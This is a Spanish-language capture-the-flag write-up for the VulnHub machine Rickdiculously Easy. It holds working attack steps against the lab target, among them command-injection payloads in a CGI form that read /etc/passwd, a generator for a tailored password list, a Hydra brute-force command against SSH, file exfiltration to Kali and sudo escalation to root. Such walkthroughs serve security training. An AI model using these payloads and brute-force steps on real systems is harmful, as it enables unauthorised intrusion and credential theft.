







# Rickdiculously Easy (VulnHub) en VMware — WriteUp completo

> **Aviso (ético y legal):** Todo lo descrito es **solo para laboratorio/CTF**. No lo uses contra sistemas reales sin autorización.

---

## Qué vas a ver aquí

Este writeup documenta, paso a paso y con detalle técnico, el flujo completo que seguimos sobre la máquina **Rickdiculously Easy**:

- Descubrir la IP de la víctima en una red VMware aislada
- Enumerar puertos/servicios con una metodología de laboratorio y comentar cómo se haría en una auditoría real
- Explotar **FTP anónimo** para obtener una flag
- Enumerar **HTTP 80** (directory listing, `robots.txt`, comentarios HTML)
- Encontrar **Command Injection** en `tracertool.cgi` para ejecutar comandos remotos como `apache`
- Acceder a **Cockpit** en `9090` (servicio web detectado por Nmap) y obtener una flag
- Detectar que el **SSH real** está en **22222**, acceder como `Summer` con la password encontrada
- Hacer post-explotación básica (`sudo -l`, pivot local, revisión de homes)
- Exfiltrar archivos a Kali, analizar una imagen y recuperar la contraseña de un ZIP
- Analizar un binario (`safe`), usar la flag previa como argumento y extraer una nueva flag y pistas de contraseña
- Generar un diccionario a medida y realizar fuerza bruta controlada contra SSH con **Hydra**
- Acceder como `RickSanchez`, revisar privilegios sudo y escalar a **root**
- Leer la flag final de `/root/FLAG.txt`

---

## Evidencias visuales usadas (imágenes)

- Imagen 1: consola inicial/login VM
- Imagen 2: netdiscover + ifconfig
- Imagen 3: `/passwords/` directory listing
- Imagen 4: web `tracertool.cgi`
- Imagen 5: “troleo” al ejecutar `cat /etc/passwd`
- Imagen 6: panel Cockpit en 9090 con flag
- Imagen 7: exploración de `$PATH`, `/sbin` y localización del falso `cat`

---

## 1) Arranque de la VM y contexto inicial

Tras arrancar la VM en VMware, aparece la consola del sistema pidiendo login local.

📷 **Imagen 1 — Consola inicial**


En este punto, como no tenemos credenciales ni documentación previa, lo correcto es empezar como en una auditoría real:

1. descubrir la IP
2. confirmar conectividad
3. enumerar servicios expuestos

---

## 2) Descubrimiento de hosts con netdiscover (ARP)

### 2.1 Ejecutar `netdiscover`

En Kali:

```bash
sudo netdiscover
```

**Qué hace realmente:**
- `netdiscover` hace reconocimiento por **ARP**.
- ARP trabaja en capa 2 dentro de la LAN y resuelve **IP → MAC**.
- Por eso esta herramienta solo tiene sentido cuando atacante y víctima están en la **misma red local o red virtual**.

**Por qué `sudo`:**
- necesita permisos para enviar y capturar tráfico ARP mediante sockets de bajo nivel.

📷 **Imagen 2 — netdiscover + ifconfig**


---

## 3) Identificar mi IP y rango con `ifconfig`

Para afinar el rango correcto:

```bash
ifconfig
```

Salida relevante:

```text
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.184.128  netmask 255.255.255.0  broadcast 192.168.184.255
```

**Interpretación:**
- `inet 192.168.184.128` → IP de Kali
- `netmask 255.255.255.0` → máscara `/24`
- rango → `192.168.184.0/24`

---

## 4) `netdiscover --help` (qué flags existen y por qué importan)

```bash
netdiscover --help
```

Flags importantes:
- `-i device` → elegir interfaz, por ejemplo `eth0`
- `-r range` → escanear un rango exacto
- `-p` → modo pasivo, no envía tráfico
- `-f` → fast mode
- `-P` / `-L` → formatos de salida pensados para parseo

En laboratorio, la flag más útil suele ser `-r`, porque deja de “probar” rangos comunes y se centra en el segmento exacto que te interesa.

---

## 5) Red aislada VMware (por qué creamos `192.168.247.0/24`)

Para asegurar visibilidad entre Kali y la víctima, se creó una red virtual nueva:

- `192.168.247.0/24`

**Por qué se hace:**
- Aísla el tráfico del laboratorio
- Facilita identificar qué hosts son tuyos
- Evita interferencias con otras redes
- Hace que ARP funcione de forma limpia

Escaneo ARP dirigido:

```bash
sudo netdiscover -r 192.168.247.0/24
```

Después confirmas tu IP en esa red:

```bash
ifconfig
```

Tu Kali:
- `192.168.247.129`

Hosts típicos observados:
- `192.168.247.1` → gateway virtual VMware
- `192.168.247.254` → DHCP VMware
- `192.168.247.128` → la otra VM, probable víctima

---

## 6) Confirmación con Nmap (escaneo de lab)

```bash
nmap -p- -sCV -n -Pn -vvv --open -T5 -oN Rickdiculously 192.168.247.128
```

### 6.1 Explicación detallada de flags

- `-p-`  
  Escanea **todos** los puertos TCP del 1 al 65535.

- `-sC`  
  Ejecuta los scripts NSE por defecto. Es muy útil para detectar misconfiguraciones comunes.

- `-sV`  
  Intenta identificar versiones y banners de los servicios.

- `-n`  
  Desactiva la resolución DNS.

- `-Pn`  
  Asume que el host está activo y no depende de ping previo.

- `-vvv`  
  Muy verboso. Sirve para ver cómo avanza el escaneo en tiempo real.

- `--open`  
  Muestra solo los puertos abiertos.

- `-T5`  
  Timing agresivo. En una auditoría real puede ser demasiado ruidoso; en un CTF/lab no suele importar.

- `-oN Rickdiculously`  
  Guarda la salida en un archivo de texto normal.

**Resultado relevante:**
- 21 FTP
- 22 SSH
- 80 HTTP
- 9090 HTTP / Cockpit
- 13337 unknown
- 22222 SSH
- 60000 unknown

👉 Esto ya huele claramente a máquina de entrenamiento con varios servicios intencionadamente expuestos.

---

## 7) Metodología realista: Nmap en fases

En una auditoría real, no suele ser buena idea lanzar `-p- -sCV -T5` de primeras. Lo habitual es separar fases.

### 7.1 Fase 1: descubrir puertos con menos ruido

```bash
nmap 192.168.247.128 -sS -T0
```

- `-sS` → SYN scan
- `-T0` → timing ultralento y sigiloso

### 7.2 Fase 2: enumeración dirigida

```bash
nmap 192.168.247.128 -p21,22,80,9090,13337,22222,60000 -sCV
```

**Por qué tiene sentido hacerlo así:**
- correr scripts y fingerprinting sobre 65535 puertos mete mucho ruido
- hacerlo solo en los puertos abiertos reduce muchísimo la huella
- es más rápido y más limpio para documentar

En este laboratorio se usa un enfoque más agresivo porque el objetivo es aprender y no pasar desapercibido.

---

## 8) FTP (21): anonymous login + flag

Nmap mostró:

- `ftp-anon: Anonymous FTP login allowed`

Eso significa que el servicio permite entrar sin credenciales reales.

### 8.1 Conectar

```bash
ftp -a 192.168.247.128
```

- `-a` → usa login anónimo

### 8.2 Enumeración y descarga

Dentro del prompt FTP:

```text
ftp> ls
ftp> get FLAG.txt
```

**Qué hace cada uno:**
- `ls` → lista ficheros del servidor FTP
- `get` → descarga un archivo remoto a tu máquina local

Ya en Kali:

```bash
cat FLAG.txt
```

Obtienes:

```text
FLAG{Whoa this is unexpected} - 10 Points
```

---

## 9) HTTP (80): enumeración de rutas con dirsearch

En web, antes de intentar nada raro, conviene descubrir rutas, ficheros expuestos, listados de directorio y archivos de pistas.

### 9.1 SecLists (opcional)

```bash
sudo git clone https://github.com/danielmiessler/SecLists.git
```

SecLists es un repositorio enorme de diccionarios para:
- rutas web
- usuarios
- contraseñas
- parámetros
- subdominios

Como tarda en descargarse, aquí se usó directamente `dirsearch`.

### 9.2 Dirsearch

```bash
dirsearch -u http://192.168.247.128
```

Resultados importantes:
- `/passwords/` → 200
- `/robots.txt` → 200
- `/cgi-bin/` → 403

Eso ya te marca tres sitios interesantes:
- un listing potencial
- un archivo de pistas (`robots.txt`)
- un directorio CGI

---

## 10) `/passwords/`: directory listing + password en comentarios

📷 **Imagen 3 — `/passwords/`**


Entras a:

- `http://192.168.247.128/passwords/`

Aparecen:
- `FLAG.txt`
- `passwords.html`

Dentro de `passwords.html`, al ver el código fuente, aparece:

```html
<!--Password: winter-->
```

✅ Hallazgo importante:
- la contraseña `winter` queda filtrada en un comentario HTML

Este tipo de error es muy realista:
- desarrolladores dejan comentarios internos
- pistas temporales
- contraseñas de prueba
- notas que olvidan borrar

---

## 11) `robots.txt`: por qué es tan útil

`robots.txt` le dice a buscadores qué no deberían indexar, pero **no es una medida de seguridad**.

Aquí muestra:
- `/cgi-bin/root_shell.cgi`
- `/cgi-bin/tracertool.cgi`

En CTFs, esto suele equivaler a:
- “ve aquí”
- “hay algo interesante en estos scripts”
- “esto no está oculto de verdad, solo señalado”

---

## 12) `tracertool.cgi`: command injection (RCE como apache)

Vas a:

- `http://192.168.247.128/cgi-bin/tracertool.cgi`

📷 **Imagen 4 — tracertool.cgi**


Prueba:

```text
192.168.247.128; whoami; pwd
```

**Qué demuestra:**
- el input del usuario acaba concatenado en un comando del sistema
- `;` rompe el comando original y añade otros nuevos
- la ejecución ocurre como `apache`
- el working directory es `/var/www/cgi-bin`

Luego listamos:

```text
; ls -la
```

---

## 13) Imagen 5: “troleo” al ejecutar `cat /etc/passwd`

Al intentar:

```text
; cat /etc/passwd
```

la salida no muestra el fichero real, sino una respuesta troleada.

📷 **Imagen 5 — salida alterada**


**Qué puede significar esto:**
- el CGI detecta exactamente ese patrón y responde con contenido falso
- se ha metido a propósito para despistar
- es un tipo de “filtro” casero o comportamiento programado

### 13.1 Bypass con `tail`

```text
; tail -n 30 /etc/passwd
```

Esto sí devuelve usuarios reales.

Y aquí ya puedes distinguir:
- `/bin/bash` → usuario interactivo
- `/sbin/nologin` → usuario de servicio

Usuarios útiles:
- `RickSanchez`
- `Morty`
- `Summer`

---

## 14) Por qué pasamos al puerto 9090 (y por qué es superficie web)

Nmap dice:

```text
9090/tcp  open  http    Cockpit web service 161 or earlier
|_http-title: Did not follow redirect to https://192.168.247.128:9090/
| http-methods:
|_  Supported Methods: GET HEAD
```

**Qué significa:**
- el puerto responde como **HTTP**
- Nmap lo identifica como **Cockpit**, un panel admin típico en Fedora/RHEL
- además detecta que fuerza **HTTPS**

Por eso se abre en navegador como:

- `https://192.168.247.128:9090/`

📷 **Imagen 6 — Cockpit**


Aquí se obtiene otra flag.

---

## 15) Puertos 13337 / 22222 / 60000 (solo lo relevante para nuestra ruta)

Escaneo dirigido:

```bash
nmap 192.168.247.128 -p13337,22222,60000 -sCV
```

Interpretación útil:
- `22222/tcp open ssh OpenSSH 7.5` → SSH real en puerto no estándar
- `13337/tcp` → banner con flag
- `60000/tcp` → servicio extraño, no es el camino que seguimos todavía

---

## 16) SSH real en 22222

Ya teníamos:
- password `winter`
- usuarios válidos obtenidos de `/etc/passwd`

Probamos:

```bash
ssh Summer@192.168.247.128 -p 22222
```

- `-p 22222` → puerto SSH alternativo
- usuario: `Summer`

✅ Acceso conseguido.

---

## 17) Post-explotación básica como `Summer`

Comandos de orientación:

```bash
whoami
pwd
ls -la
```

Lees la flag con:

```bash
head FLAG.txt
```

**Por qué `head`:**
- el archivo contiene ASCII art
- solo interesa leer la cabecera donde está la flag
- `head` evita ensuciar la terminal

---

## 18) `sudo -l`: por qué se ejecuta siempre

```bash
sudo -l
```

**Para qué sirve:**
- lista qué comandos puede ejecutar el usuario mediante sudo

En tu caso:
- `Summer` no puede usar sudo

Conclusión:
- no hay escalada directa por esta vía

---

## 19) Pivot local: por qué revisamos `/home`

Como no hay escalada directa, toca enumerar localmente.

```bash
cd /home
ls
```

Ves:
- `Morty`
- `RickSanchez`
- `Summer`

Aquí la lógica es sencilla:
- en CTFs, los homes suelen contener credenciales, notas, binarios, imágenes, zips o pistas

En `Morty` aparecen:
- `journal.txt.zip`
- `Safe_Password.jpg`

---

## 20) SCP: por qué el primer intento falla y el segundo funciona

### 20.1 Qué es `scp`

`scp` copia archivos sobre SSH. Piensa en ello como “usar SSH para mover ficheros”.

### 20.2 Primer intento fallido

Intentaste algo equivalente a:

```bash
scp -P 22222 summer@192.168.247.128:/home/Morty/journal.txt.zip ./
```

Falló por dos motivos posibles que aquí son relevantes:
- `summer` no coincide con `Summer` (Linux diferencia mayúsculas y minúsculas)
- si el usuario autenticado no tiene permisos de lectura, también fallará

### 20.3 Forma correcta

```bash
scp -P 22222 Summer@192.168.247.128:/home/Morty/journal.txt.zip ./
scp -P 22222 Summer@192.168.247.128:/home/Morty/Safe_Password.jpg ./
```

- `-P` mayúscula → puerto SSH en `scp`
- usuario correcto → `Summer`

---

## 21) Exfil alternativa: servidor HTTP con Python desde la sesión SSH

Aunque `scp` funciona, levantar un servidor HTTP temporal es un recurso muy común.

### 21.1 Intento fallido en puerto 80

```bash
python3 -m http.server 80
```

Da `Permission denied`.

### 21.2 Por qué 80 es privilegiado

En Linux/Unix:
- puertos `0–1023` → privilegiados
- puertos `1024+` → no privilegiados

Solo root o procesos con capacidades especiales pueden hacer `bind()` en 80.

### 21.3 Solución: 8080

```bash
python3 -m http.server 8080
```

Esto publica el directorio actual por HTTP.

### 21.4 Descargar desde Kali

```bash
wget http://192.168.247.128:8080/Safe_Password.jpg
```

Aquí la idea es:
- levantar servidor dentro de la sesión SSH de `Summer`
- exfiltrar archivos a Kali
- analizarlos localmente con comodidad

---

## 22) Análisis del JPG: metadatos y `strings`

### 22.1 Exiftool

```bash
exiftool Safe_Password.jpg
```

Busca:
- comentarios EXIF
- autor
- software
- metadatos sospechosos

No aparece la contraseña.

### 22.2 Strings

```bash
strings Safe_Password.jpg
```

Aquí sí aparece:

- `Password: Meeseek`

Conclusión:
- password del ZIP `journal.txt.zip` → **Meeseek**

---

# Continuación del writeup

A partir de aquí seguimos con la parte de explotación local y escalada.

---

## 23) Entender el `$PATH` y por qué `cat` no es el `cat` “normal”

Ya dentro como `Summer`, una observación importante es revisar cómo se resuelven los binarios en el sistema.

Intentaste:

```bash
$PATH
```

y obtuviste:

```text
-bash: /usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/home/Summer/.local/bin:/home/Summer/bin: No such file or directory
```

### 23.1 Por qué da ese error

`$PATH` **no es un comando**, es una **variable de entorno**.

Cuando escribes:

```bash
$PATH
```

Bash intenta ejecutar literalmente el contenido de la variable como si fuera una ruta o un binario. Como el contenido de `PATH` es una lista de directorios separados por `:`, Bash intenta interpretarlo como un ejecutable y falla.

La forma correcta de mostrarlo sería:

```bash
echo $PATH
```

### 23.2 Qué es `PATH` y por qué importa

`PATH` define el orden de directorios en el que el shell busca binarios cuando tú escribes un comando sin ruta completa.

Si el `PATH` fuera:

```text
/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/home/Summer/.local/bin:/home/Summer/bin
```

entonces Bash busca, en este orden:

1. `/usr/local/bin`
2. `/usr/bin`
3. `/usr/local/sbin`
4. `/usr/sbin`
5. `/home/Summer/.local/bin`
6. `/home/Summer/bin`

### 23.3 Por qué esto es importante en esta máquina

Porque nosotros dábamos por hecho que `cat` era el binario legítimo del sistema.  
Pero en esta máquina ya vimos que:
- `cat /etc/passwd` no devuelve el contenido esperado
- a veces aparece un gato ASCII

Eso nos hace sospechar que:
- han sustituido el comportamiento
- hay un script falso con el mismo nombre
- o el orden del `PATH` hace que se ejecute otro `cat`

---

## 24) Buscando el binario `cat` modificado

Primero comprobaste `/sbin` y viste muchos comandos.

📷 **Imagen 7 — exploración en `/sbin` y contexto del PATH**


Ahí no estaba `cat`.

Entonces la lógica correcta fue:
- si el `PATH` busca en orden
- y en `/sbin` no está `cat`
- toca revisar la siguiente ruta relevante del `PATH`

En `/usr/bin` encontraste:

```bash
ls | grep cat
```

Salida:

```text
bzcat
cat
catchsegv
catman
chcat
db_replicate
fallocate
gapplication
gencat
locate
lz4cat
msgcat
ncat
ntfscat
ntfsfallocate
ntfstruncate
systemd-cat
truncate
xmlcatalog
xzcat
zcat
```

### 24.1 Por qué usas `grep`

```bash
ls | grep cat
```

- `ls` lista archivos del directorio
- `|` pasa la salida al siguiente comando
- `grep cat` filtra las líneas que contienen la cadena `cat`

---

## 25) Revisando el contenido del falso `cat`

Después abriste el archivo con:

```bash
tail -1000 cat
```

Salida:

```bash
CATONALEASH << "EOF"
                         _
                        |                         | |
                        | |
   |\                   | |
  /, ~\                / /
 X     `-.....-------./ /
  ~-. ~  ~              |
     \             /    |
      \  /_     ___\   /
      | /\ ~~~~~   \  |
      | | \        || |
      | |\ \       || )
     (_/ (_/      ((_/

EOF
```

### 25.1 Qué demuestra esto

Demuestra que el `cat` que se está ejecutando **no es el binario legítimo**, sino un script o wrapper modificado para imprimir el gato ASCII.

### 25.2 Por qué usaste `tail -1000`

Usar `tail` evita depender del propio `cat`, que justo está trolleado.

- `tail -1000 cat` muestra las últimas 1000 líneas del archivo
- en un archivo pequeño, eso basta para verlo casi entero

### 25.3 Qué enseña este punto

No hay que fiarse automáticamente de un comando “de toda la vida”.  
Si el entorno está manipulado:
- el nombre del binario puede ser engañoso
- el `PATH` puede redirigirte a una versión falsa
- un comando común puede convertirse en una trampa

---

## 26) Priorizar metadatos antes que fuerza bruta

Antes de intentar fuerza bruta:
- haces ruido
- tardas más
- y quizá ni sea necesaria

En cambio, si ya tienes:
- un ZIP
- una imagen llamada `Safe_Password.jpg`

lo lógico es exprimir primero:
- metadatos
- strings
- comentarios
- datos embebidos

Aquí precisamente eso fue lo correcto:
- `strings` en el JPG reveló la password `Meeseek`

---

## 27) Descomprimir el ZIP con la password obtenida

Una vez encontrada la password del ZIP desde el JPG, se usa para extraer `journal.txt.zip`.

El flujo lógico sería:

```bash
unzip journal.txt.zip
```

o:

```bash
7z x journal.txt.zip
```

Cuando pide contraseña, introduces:

```text
Meeseek
```

Contenido relevante:

```text
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points
```

### 27.1 Qué significa este hallazgo

Aquí consigues dos cosas:

1. **Otra flag**
   - `FLAG: {131333} - 20 Points`

2. **Una pista funcional**
   - el texto menciona un **safe**
   - ya habías visto un binario llamado `safe`
   - por tanto, `131333` seguramente no sea solo puntuación: también puede ser un input útil

---

## 28) Volver a `RickSanchez` y revisar el binario `safe`

Vuelves a:

```bash
cd /home/
ls
cd RickSanchez/
ls
cd RICKS_SAFE/
ls
```

Aparece:

- `safe`

La lógica aquí es clara:
- el journal hablaba de un “safe”
- existe un binario `safe`
- toca analizarlo

---

## 29) `file safe`: qué hace y qué información te da

```bash
file safe
```

Salida:

```text
safe: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6788eee358d9e51e369472b52e684b7d6da7f1ce, not stripped
```

### 29.1 Qué es `file`

`file` analiza la cabecera del archivo y determina qué tipo de fichero es realmente.

### 29.2 Explicación del resultado

- `ELF 64-bit` → ejecutable Linux de 64 bits
- `LSB` → little endian
- `x86-64` → arquitectura AMD64/Intel64
- `dynamically linked` → depende de librerías del sistema
- `interpreter /lib64/ld-linux-x86-64.so.2` → cargador dinámico
- `for GNU/Linux 2.6.32` → pensado para Linux compatible
- `BuildID` → identificador interno
- `not stripped` → conserva símbolos/información útil para análisis

Conclusión:
- no es un script
- no es texto plano
- es un binario ELF ejecutable

---

## 30) Traerse el binario a Kali para analizarlo mejor

Como antes ya habías usado un servidor Python, decides levantar uno nuevo en otro puerto:

Primero hubo un typo:

```bash
python -m python.server 8881
```

El comando correcto fue:

```bash
python3 -m http.server 8881
```

Eso publica el directorio actual por HTTP.

Luego, desde Kali:

```bash
wget http://192.168.247.128:8881/safe
```

Con eso te llevas el binario localmente para analizarlo mejor.

---

## 31) `chmod +x` y por qué cambia de color

En Kali, el archivo descargado no estaba marcado como ejecutable.

```bash
chmod +x safe
```

- `chmod` cambia permisos
- `+x` añade permiso de ejecución

En muchas terminales, los ejecutables aparecen en verde, por eso cambia de color.

---

## 32) `strings safe` y el error por librería faltante

Probaste:

```bash
strings safe
```

y después:

```bash
./safe
```

Error:

```text
./safe: error while loading shared libraries: libmcrypt.so.4: cannot open shared object file: No such file or directory
```

### 32.1 Qué significa este error

El binario es dinámico y necesita librerías del sistema para arrancar.  
En tu Kali falta:

- `libmcrypt.so.4`

Por eso el cargador dinámico aborta antes de ejecutar el programa.

---

## 33) Por qué `Summer` no podía ejecutar `safe` en la víctima

En la propia sesión SSH viste:

```bash
ls -la
```

Salida relevante:

```text
-rwxr--r--. 1 RickSanchez RickSanchez 8704 Sep 21  2017 safe
```

### 33.1 Interpretación de permisos

`-rwxr--r--`

- propietario → `rwx`
- grupo → `r--`
- otros → `r--`

Eso significa:
- solo el propietario (`RickSanchez`) puede ejecutarlo
- `Summer` solo puede leerlo, no ejecutarlo

Por eso:

```bash
./safe
```

devuelve:

```text
Permission denied
```

---

## 34) Copiar el binario a `/home/Summer` para poder modificar permisos

Aquí aplicaste una solución muy buena:

```bash
cp safe /home/Summer/
cd /home/Summer/
chmod +x safe
```

### 34.1 Por qué esto sí funciona

- el archivo original era legible por `Summer`
- `cp` crea una copia en un directorio controlado por `Summer`
- el nuevo archivo pasa a ser modificable por su dueño

En otras palabras:
- no podías ejecutar el original
- sí podías copiarlo
- y sí podías cambiar permisos sobre tu copia

---

## 35) Ejecutar `safe` sin argumentos

```bash
./safe
```

Salida:

```text
Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!
```

Esto indica claramente que:
- el binario espera argumentos por línea de comandos
- probablemente uno de esos argumentos sea la flag `131333`

---

## 36) Ejecutar `safe` con `131333`

```bash
./safe 131333
```

Salida:

```text
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order

1 uppercase character
1 digit
One of the words in my old bands name.
```

### 36.1 Qué has obtenido aquí

Dos cosas críticas:

1. **Otra flag**
   - `FLAG{And Awwwaaaaayyyy we Go!} - 20 Points`

2. **Pistas de contraseña**
   - 1 mayúscula
   - 1 dígito
   - una palabra del nombre de la antigua banda de Rick

---

## 37) Generar un diccionario a medida en vez de usar uno enorme

Esto es mucho mejor que lanzar fuerza bruta ciega.

Basándote en las pistas y en el contexto temático, escoges palabras candidatas:
- `The`
- `Flesh`
- `Curtains`

Luego generas combinaciones con Python.

### 37.1 Script `fuerzaBruta.py`

```python
import string

words = ["The", "Flesh", "Curtains"]  # reemplaza por palabras probables
with open("candidatos.txt", "w", encoding="utf-8") as f:
    for upper in string.ascii_uppercase:
        for digit in string.digits:
            for word in words:
                f.write(f"{upper}{digit}{word}
")
```

### 37.2 Qué hace el script

Genera patrones del tipo:
- una letra mayúscula
- un número
- una palabra candidata

Espacio total:
- `26 × 10 × 3 = 780` combinaciones

Eso es pequeño, manejable y muy eficiente.

---

## 38) Crear `candidatos.txt`

```bash
python3 fuerzaBruta.py
```

Resultado:
- `candidatos.txt`

---

## 39) Hydra contra SSH 22222

Con el usuario ya conocido (`RickSanchez`) y la wordlist ajustada, lanzas:

```bash
hydra -l RickSanchez -P candidatos.txt ssh://192.168.247.128:22222
```

### 39.1 Explicación de flags

- `-l RickSanchez` → usuario fijo
- `-P candidatos.txt` → lista de contraseñas
- `ssh://192.168.247.128:22222` → servicio SSH y puerto

### 39.2 Resultado

Hydra encuentra:

```text
login: RickSanchez   password: P7Curtains
```

✅ Credencial válida:
- `RickSanchez : P7Curtains`

---

## 40) Acceso SSH como `RickSanchez`

```bash
ssh RickSanchez@192.168.247.128 -p22222
```

Luego:

```bash
whoami
```

Devuelve:

```text
RickSanchez
```

---

## 41) `sudo -l` como Rick

```bash
sudo -l
```

Salida clave:

```text
User RickSanchez may run the following commands on localhost:
    (ALL) ALL
```

### 41.1 Qué significa

Que `RickSanchez` puede ejecutar **cualquier comando como cualquier usuario**, incluido `root`.

Eso equivale, en la práctica, a compromiso total del sistema.

---

## 42) Escalada a root

```bash
sudo su
```

- `sudo` eleva privilegios
- `su` cambia al usuario root

Resultado:
- prompt de root (`#`)

---

## 43) Flag final en `/root/FLAG.txt`

```bash
cd /root/
ls
tail -n 1000 FLAG.txt
```

Salida:

```text
FLAG: {Ionic Defibrillator} - 30 points
```

✅ Flag final obtenida.

---

## 44) Resultado final: puntos conseguidos

Según tu recuento, se consiguen los **130 puntos** de la máquina.

---

